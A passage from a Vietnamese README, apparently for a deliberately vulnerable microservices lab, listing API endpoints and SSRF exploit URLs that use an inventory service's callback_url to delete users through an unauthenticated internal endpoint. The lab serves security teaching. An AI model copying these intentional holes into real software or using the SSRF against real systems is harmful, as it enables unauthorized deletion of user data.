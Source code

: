 4. Click "Trigger SSRF Attack"
5. Inventory service sẽ gọi endpoint xóa user, bypass authentication!

### Ví dụ exploit URLs:

```bash
# Xóa user có ID = 1
http://user-service:8081/api/users/delete/1

# Xóa user có ID = 2
http://user-service:8081/api/users/delete/2

# Có thể thử với các internal services khác
http://user-service:8081/api/users
```

## 📝 API Endpoints

### User Service (8081)

```
POST   /api/auth/register     - Đăng ký tài khoản mới
POST   /api/auth/login        - Đăng nhập
GET    /api/users             - Lấy danh sách users (Admin only)
GET    /api/users/{id}        - Lấy thông tin user (Admin only)
PUT    /api/users/{id}        - Cập nhật user (Admin only)
DELETE /api/users/delete/{id} - Xóa user (VULNERABLE - No auth required!)
```

### Product Service (8082)

```
GET    /api/products/          - Lấy danh sách sản phẩm
GET    /api/products/{id}/     - Lấy chi tiết sản phẩm
POST   /api/products/          - Tạo sản phẩm mới
PUT    /api/products/{id}/     - Cập nhật sản phẩm
DELETE /api/products/{id}/     - Xóa sản phẩm
```

### Inventory Service (8083)

```
GET    /api/inventory/{product_id}/{size}                    - Lấy tồn kho
GET    /api/inventory/{product_id}/{size}?callback_url={url} - SSRF VULNERABLE!
GET    /api/inventory/{product_id}                           - Lấy tất cả tồn kho của sản phẩm
PUT    /api/inventory/{product_id}/{size}                    - Cập nhật tồn kho
```

## 🎯 Tính năng

### Người dùng thường:
- ✅ Đăng ký, đăng nhập
- ✅ Xem danh sách sản phẩm
- ✅ Xem chi tiết sản phẩm
- ✅ Chọn size và xem số lượng tồn kho
